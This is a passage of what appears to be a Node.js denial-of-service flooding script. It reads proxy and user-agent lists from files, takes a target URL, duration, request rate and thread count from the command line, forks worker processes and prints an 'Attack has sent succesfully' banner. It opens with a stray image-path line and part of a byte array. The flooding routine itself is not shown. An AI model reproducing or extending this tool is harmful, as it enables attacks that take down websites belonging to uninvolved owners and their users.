     "\x18",
    "\x26",
    "\x61",
    "\x04",
    "\x05",
    "\xac",
    "\x02",
    "\x50",
    "\x84",
    "\x78"
    ];

    const Methods = [
        "GET",
        "POST",
        "HEAD",
        "DELETE",
        "PUT"
    ];

var proxyFile = "proxy.txt";
var proxies = readLines(proxyFile);
var userAgents = readLines("ua.txt");

const args = {
    target: process.argv[2],
    time: ~~process.argv[3],
    Rate: ~~process.argv[4],
    threads: ~~process.argv[5]
}

const parsedTarget = url.parse(args.target);

if (cluster.isMaster) {
   for (let counter = 1; counter <= args.threads; counter++) {
       //console.log("Threads " + counter +  " started.");
       cluster.fork();
   }

   console.clear();
   console.log(``);
   console.log(``);
   console.log(`[!] Attack has sent succesfully `);
   console.log('[!] Target: ' + parsedTarget.host );
   console.log('[!] Time: ' + args.time);
   console.log('[!] Threads: ' + args.threads);
   console.log('[!] Requests per second: ' + args.Rate);
   console.log(`[!] Status: Succes!`);
   console.log(``);

 setTimeout(() => {
  process.exit(1);
 }, process.argv[3] * 1000);

} 
